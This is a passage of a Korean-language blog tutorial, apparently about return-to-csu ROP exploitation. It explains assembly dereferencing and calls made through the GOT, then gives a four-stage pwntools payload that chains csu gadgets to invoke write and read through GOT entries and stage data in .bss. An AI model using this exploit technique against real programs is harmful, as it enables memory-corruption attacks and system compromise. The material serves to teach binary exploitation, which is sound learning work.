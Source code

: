Assembly에 대해 능숙하다면 해당 차이가 의미하는 바를 눈치챌 수 있을 것 입니다. C 언어에서 pointer를 이용하는 것처럼 Assembly에서도 pointer 형태를 사용할 수 있습니다.

Assembly에서 `[]` 문자는 "역참조"를 의미합니다. 즉, 해당 주소를 참조하여 call을 수행하는 것이 아닌 해당 주소에 "저장되어 있는 값"을 참조합니다. `qword ptr`은 참조하는 값의 형식을 지정하기 위해 사용합니다. 관련된 내용들은 [[게시글](https://m.blog.naver.com/PostView.naver?isHttpsRedirect=true&blogId=hacking560&logNo=90183418979)]에서 참조할 수 있습니다.

결론을 내리면, GOT에 저장되어 있는 함수 주소를 사용하기 때문에 기존 plt를 사용하는 방식은 사용이 불가합니다.

- r15 register와 edi

gadget 2를 보면 r15 register의 값을 edi로 복사하는 것을 알 수 있습니다. 따라서 first argument에는 최대 double word 크기까지만 저장이 가능합니다.

그러나 공격에 사용되는 함수는 대부분 해당 크기를 초과하는 인자를 사용하지 않기 때문에 큰 문제는 없다고 합니다.

## How to create payload?

간단한 payload를 통해 공격의 흐름을 알아보았습니다.

```
# S#1

 payload = padding
 payload += pwn.p64(popGadget)
 payload += pwn.p64(rbx)
 payload += pwn.p64(rbp)
 payload += pwn.p64(writeGot)
 payload += pwn.p64(0x8)
 payload += pwn.p64(readGot)
 payload += pwn.p64(0x1)
 payload += pwn.p64(callGadget)

# S#2
 
 payload += forRSP
 payload += pwn.p64(rbx)
 payload += pwn.p64(rbp)
 payload += pwn.p64(readGot)
 payload += pwn.p64(0x8)
 payload += pwn.p64(elf.bss())
 payload += pwn.p64(0x0)
 payload += pwn.p64(callGadget)

# S#3
 
 payload += forRSP
 payload += pwn.p64(rbx)
 payload += pwn.p64(rbp)
 payload += pwn.p64(readGot)
 payload += pwn.p64(0x8)
 payload += pwn.p64(readGot)
 payload += pwn.p64(0x0)
 payload += pwn.p64(callGadget)

# S#4
 
 payload += forRSP
 payload += pwn.p64(rbx)
 payload += pwn.p64(rbp)
 payload += pwn.p64(readGot)
 payload += pwn.p64(0x0)
 payload += pwn.p64(0x0)
 payload += pwn.p64(elf.bss())
 payload += pwn.p64(callGadget)
```
